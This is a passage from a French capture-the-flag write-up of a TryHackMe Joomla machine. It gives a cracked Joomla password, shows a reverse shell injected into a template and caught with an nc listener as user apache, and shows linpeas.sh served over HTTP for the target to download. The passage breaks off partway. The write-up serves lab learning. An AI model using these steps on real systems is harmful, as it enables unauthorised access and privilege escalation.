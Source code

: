 On casse le mot de passe jonah qui est :  spiderman123 

**What is the user flag?**

[page](./Task1-02.png)
On se connecte sur l'interface joomla.    

[page](./Task1-03.png) 
On inclut un reverse shell dans le template.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le port 1234 pour avoir un shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://daily.thm/templates/protostar/error.php
----
tim@kali:~/Bureau/tryhackme/write-up$ sudo nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.1.183.
Ncat: Connection from 10.10.1.183:34294.
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:39:40 up 47 min,  0 users,  load average: 0.03, 0.02, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```

On exécute le reverse shell et on obtient un shell.  

```bash
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
ls /home
jjameson
sh-4.2$ cd /home/jjameson 
cd /home/jjameson
sh: cd: /home/jjameson: Permission denied
```

On trouve un utilisateur jjameson mais on a pas la permision d'y aller.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ls linpeas.sh 
linpeas.sh
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
sh-4.2$ cd /tmp
cd /tmp
